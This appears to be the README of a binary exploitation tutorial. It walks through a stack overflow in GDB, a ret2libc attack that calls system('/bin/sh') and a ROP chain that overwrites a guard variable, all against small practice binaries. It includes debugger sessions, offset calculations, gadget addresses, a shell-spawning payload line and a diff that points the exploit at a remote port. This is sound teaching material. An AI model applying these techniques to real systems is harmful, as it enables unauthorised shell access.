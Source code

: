 Binary Exploitation Tutorial
============================

Examples
--------

### GDB

* Path: `gdb/`
* Goal: perform an overflow to set the value of the `authenticated` variable to `1337` and make the application print the success message.

You can play the recording of the session by typing

	asciinema play gdb_example.cast

### Ret2Libc

* Path: `ret2libc/`
* Goal: use a re2libc attack to call `system("/bin/sh")` by exploiting the overflow vulnerability in the `echo` function.

Find the address of the string "binsh":

	$ objdump -D ropme | grep binsh
	0804a020 <binsh>:

Find the address of system():

	$ gdb ropme
	(gdb) b main
	Breakpoint 1 at 0x80484b5
	(gdb) r
	Starting program: /home/marco/rop/ropme

	Breakpoint 1, 0x080484b5 in main ()
	(gdb) p system
	$1 = {<text variable, no debug info>} 0x2a8d3200 <system>

Now we must find the lenght of our payload and where to place the return address of the next function to call (system) and the parameter


	(gdb) b *0x08048486
	Breakpoint 2 at 0x8048486
	(gdb) c
	Continuing.
	AAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAA

	Breakpoint 2, 0x08048486 in echo ()

	(gdb) x/40wx $esp
	0xffffd650:     0x2aa6e000      0x2aa6e000      0x00000000      0x41414141
	0xffffd660:     0x41414141      0x41414141      0x41414141      0x08048500
	0xffffd670:     0x00000001      0x00000000      0xffffd688      0x080484ac
	0xffffd680:     0x2aa929b0      0xffffd6a0      0x00000000      0x2a8aee81
	0xffffd690:     0x2aa6e000      0x2aa6e000      0x00000000      0x2a8aee81
	0xffffd6a0:     0x00000001      0xffffd734      0xffffd73c      0xffffd6c4
	0xffffd6b0:     0x00000001      0x00000000      0x2aa6e000      0x2aa9275a
	0xffffd6c0:     0x2aaaa000      0x00000000      0x2aa6e000      0x00000000
	0xffffd6d0:     0x00000000      0x3be2084a      0xd193cfe0      0x00000000
	0xffffd6e0:     0x00000000      0x00000000      0x00000001      0x08048340

	(gdb) info frame
	Stack level 0, frame at 0xffffd680:
	 eip = 0x8048486 in echo; saved eip = 0x80484ac
	 called by frame at 0xffffd6a0
	 Arglist at 0xffffd678, args:
	 Locals at 0xffffd678, Previous frame's sp is 0xffffd680
	 Saved registers:
	  ebx at 0xffffd674, ebp at 0xffffd678, eip at 0xffffd67c

	(gdb) p 0xffffd67c - (0xffffd660 - 4)
	$2 = 32


We now build the payload, see `exploit.py`

	marco@testbed:~/rop$ ./exploit.py ./ropme
	[+] Starting local process './ropme': pid 22214
	[*] Switching to interactive mode
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	$ id
	uid=1502(marco) gid=1503(marco) groups=1503(marco)

Pwntools is very handy because it allows to interact with remote programs as if they were local ones just be changing a single line in the script.

	marco@testbed:~/rop$ git diff exploit.py exploit_r.py
	diff --git a/exploit.py b/exploit_r.py
	index 94ff3a5..1a7bc89 100755
	--- a/exploit.py
	+++ b/exploit_r.py
	@@ -7,7 +7,7 @@ def main():
	     binsh = p32(0x0804a020)
	     system = p32(0xf7e26200)

	-    p = process(sys.argv[1])
	+    p = remote('127.0.0.1', 31337)
	     p.sendline('A'*32 + system + 'B'*4 + binsh)
	     p.interactive()


### ROP

* Path: `rop/`
* Goal: build a rop-chain to change the value of the `guard` into `0xb000000f` and continue with the execution of the program to make it print the success message.

Our simple ROP example requires to write an arbitrary value on a variable that is out of the stack. First we need to get the base address of the library when it's loaded:

	$ cat /proc/24240/maps
	f7de9000-f7fbe000 r-xp 00000000 fc:01 1807762                            /lib/i386-linux-gnu/libc-2.27.so

So our base address is f7de9000.

Now we look for a gadget that allows to write the content of a register into the address pointed by another register, like a `mov dword ptr [edx], eax`:

	$ ROPgadget --binary  /lib/i386-linux-gnu/libc-2.27.so > libcgadgets.txt
	$ grep -E 'mov dword ptr \[e.x\], e.x' libcgadgets.txt
	...
	0x00075425 : mov dword ptr [edx], eax ; ret
	...

Now we need to set something into these two registers, so we'd like to have some pops:

	0x00001aae : pop edx ; ret
	0x00024b5e : pop eax ; ret

And we should also figure out where our variable `guard` is:

	marco@testbed:~/rop_w$ objdump -D ropmew | grep guard
	0804a020 <guard>

And where the function should return:

	   0x08048498 <+26>:    call   0x8048456 <readstuff>
	   0x0804849d <+31>:    mov    eax,DWORD PTR [ebx+0x20]

One last step... the application expects to fetch the content of the `guard` from `ebx+0x20`. After the attack, we might have changed the value of `ebx`, so we must leverage another gadget to reset its value to the intended one. If we don't do this, the application might try to access an unreadable area of memory

	=> 0x0804849d <+31>:    mov    eax,DWORD PTR [ebx+0x20]
   	0x080484a3 <+37>:    cmp    eax,0xb000000f

As we can see, since `eax` should contain the value of the `guard`, the proper value of `ebx` must be the location of the guard - 0x20... the gadget we need is a `pop ebx; ret`:

	0x00018be5 : pop ebx ; ret

Now we write and execute the payload, see attack.py!

Tricks
------

### GDB

Provide some input systematically to the stdin of an application that is being debugged:

	(gdb) r < <(python -c 'print("A"*19)')
	(gdb) r <<< $(python -c 'print("A"*19)')

### Misc

Print the list of security features enabled for a certain binary

	$ checksec ./binary
